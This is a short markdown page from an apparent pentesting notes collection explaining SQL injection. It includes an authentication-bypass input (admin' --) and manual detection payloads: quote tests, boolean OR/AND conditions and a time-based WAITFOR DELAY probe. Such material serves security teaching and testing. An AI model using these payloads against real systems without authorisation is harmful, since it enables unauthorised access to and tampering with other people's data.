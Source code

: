 ```yaml
---
title: SQL Injection
category: Web-Attacks
tags: [recon, exploit, webvuln, sql, payload]
tools: ['sqlmap', 'nuclei']
---
```


# SQL Injection

**SQL Injection (SQLi)** is a web security vulnerability that allows an attacker to interfere with the queries that an  application makes to its database. It enables attackers to view, modify, or delete data they are not normally able to access.

SQL injection occurs when an application builds SQL queries by  concatenating strings that include user-supplied data. When this input  isn't properly sanitized, attackers can modify the query's logic. For  example, in the query:

```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```

An attacker might input: `admin' --`, changing the query to:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'input'
```

This commenting out the password check entirely.

## Detection

### Manual Testing

#### Quote Tests

Tests for SQL parsing errors by injecting different types of quotes:

```sql
# Quote tests - Testing for SQL parsing errors
username'   # Single quote - Most common SQL injection test
username"   # Double quote - Used in some database types
username`   # Backtick - Mainly for MySQL identifier injection
```

#### Logic Tests

Verifies query manipulation possibilities through boolean logic:

```sql
username' OR '1'='1   # Always true condition, often bypasses authentication
username' AND '1'='2  # Always false condition, verifies boolean responses
username' WAITFOR DELAY '0:0:5'--  # Time-based test, checks for blind injection
```
